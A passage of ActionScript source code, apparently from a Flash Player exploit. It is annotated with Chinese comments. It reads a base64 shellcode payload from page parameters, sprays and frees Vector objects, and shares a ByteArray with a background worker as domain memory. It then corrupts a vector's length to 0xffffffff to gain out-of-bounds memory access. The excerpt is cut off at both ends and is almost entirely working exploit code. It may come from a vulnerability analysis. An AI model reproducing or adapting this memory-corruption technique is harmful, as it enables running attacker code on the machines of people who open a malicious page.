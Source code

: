 ```ActionScript
        else workerThread()
    }

    private function mainThread():void
    {
        platform = LoaderInfo(this.root.loaderInfo).parameters.pl
        os = LoaderInfo(this.root.loaderInfo).parameters.os
        var b64_payload:String = LoaderInfo(this.root.loaderInfo).parameters.sh
        var pattern:RegExp = / /g;
        b64_payload = b64_payload.replace(pattern, "+")
        b64.decode(b64_payload)
        payload = b64.toByteArray()

        ba.length = 0x1000
        ba.shareable = true
        for (var i:uint = 0; i < ov.length; i++) {
            ov[i] = new Vector.<uint>(1014)
            ov[i][0] = 0xdeedbeef
        }
        for (i = 0; i < 70000; i += 2) {
            delete(ov[i])
        }
        worker = WorkerDomain.current.createWorker(this.loaderInfo.bytes) //* 创建后台 worker
        mc = worker.createMessageChannel(Worker.current)
        mc.addEventListener(Event.CHANNEL_MESSAGE, onMessage) //* 设置事件监听函数
        worker.setSharedProperty("mc", mc)
        worker.setSharedProperty("ba", ba)
        ApplicationDomain.currentDomain.domainMemory = ba //* 将可分享的 ByteArray 对象设置为全局可用
        worker.start()
    }

    private function workerThread():void
    {
        var ba:ByteArray = Worker.current.getSharedProperty("ba")
        var mc:MessageChannel = Worker.current.getSharedProperty("mc")
        ba.clear() //* 清理共享内存 ByteArray
        ov[0] = new Vector.<uint>(1022) //* 每个 Unit Vector 长度为 1022，大小为 1022*4+8=0x1000，即 ba 的大小
        mc.send("") //* 发送消息给主线程
        while (mc.messageAvailable);
        for (var i:uint = 0;; i++) {
            if (ov[0][i] == 1014 && ov[0][i + 2] == 0xdeedbeef) {
                ov[0][i] = 0xffffffff
                break
            }
        }
        ov[0][0xfffffffe] = 1014
        mc.send("")
    }

    private function onMessage(e:Event):void
    {
        var mod:uint = casi32(0, 1022, 0xFFFFFFFF) //* 比较并交换 domainMemory 地址的变量值
        Logger.log("[*] Exploit - onMessage(): mod: " + mod.toString())
        if (mod == 1022) mc.receive()
        else {            
            for (var i:uint = 0; i < ov.length; i++) {
                if (ov[i].length == 0xffffffff) {
                    uv = ov[i]
                } else {
                    if (ov[i] != null) {
                        delete(ov[i])
                        ov[i] = null
                    }
```